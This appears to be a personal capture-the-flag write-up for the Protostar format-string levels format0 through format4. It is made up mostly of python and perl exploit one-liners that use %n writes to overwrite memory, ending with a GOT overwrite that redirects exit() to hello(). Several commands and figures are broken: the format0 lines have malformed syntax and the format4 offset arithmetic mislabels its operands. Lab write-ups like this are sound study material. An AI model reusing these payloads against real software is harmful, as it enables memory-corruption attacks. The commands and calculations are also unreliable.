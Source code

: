 https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf

##Format0
* can be done in stackoverflow and format
* `./format0 python -c "print -c 'A'*64+\xef\xbe\xad\xde\"`
* `./format0 python -c "print -c '%64d'+'\xef\xbe\xad\xde\'"`

##Format1
* this is bit tricky as the offset not just in the 128 place
* ./format1 `python -c "print 'AAAAAAAA'+'%x.'*150"`
* identify the offset is 128 like this `41414100.41414141.2e782541` so we need add 1 extra `A` for the attack
* identify the target address
* `objdump -t ./format1 | grep target`
* `08049638`
* ./format1 `python -c "print '\x38\x96\x04\x08A%128$n'"`

##Format2
* first step similar with that last one
* we get `python -c 'print "\xe4\x96\x04\x08%x%x%x%n"' | ./format2`
* but target is just 23
* just changing the format string from “%x” to “%44x”. This pads the string to be 44 characters long(magic)
* `python -c 'print "\xe4\x96\x04\x08%44x%x%x%n"' | ./format2`

##Format3
* similar with last one and I sloved in a bit stupid way
* `python -c 'print "\xf4\x96\x04\x08"+"%x"*10+"%16930059x%n"' | ./format3`
* smart wayq
* `python -c "print '\xf4\x96\x04\x08'+'%x'*10+'%11x%n'+'AA\xf5\x96\x04\x08'+'%x'*6+'%475x%n'+'A\xf7\x96\x04\x08'+'%x'*4+'%135x%n'" | ./format3`

##Format4
* need change the exit address to hello
* `objdump -TR ./format4`
* from this we know that the exit address is `0x08049724`
* `objdump -t ./format4 | grep hello`
* the address of `hello` funtion is `0x080484b4`
* just similar with format challeng before
* need use gdb to identify the overwrite value
* `x/1x 0x8049724`
* `perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%4\$n"' > /tmp/format4`
```
(gdb) x/1x 0x08049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x00000010
```
* so we need overwrite it to `0x80484b4`
* 1. `0xb4 - 0x10 = 164`
* 2. `0x84 - 0x64 = -48` so we change it to `0x184 - 0xb4 = 208`
* 3. `0x104 - 0x84 = 128`
* 4. `0x108 - 0x04 = 260`
* `perl -e 'print "\x24\x97\x04\x08"."\x25\x97\x04\x08"."\x26\x97\x04\x08"."\x27\x97\x04\x08"."%164x%4\$n"."%208x%5\$n"."%128x%6\$n"."%260x%7\$n"' | ./format4`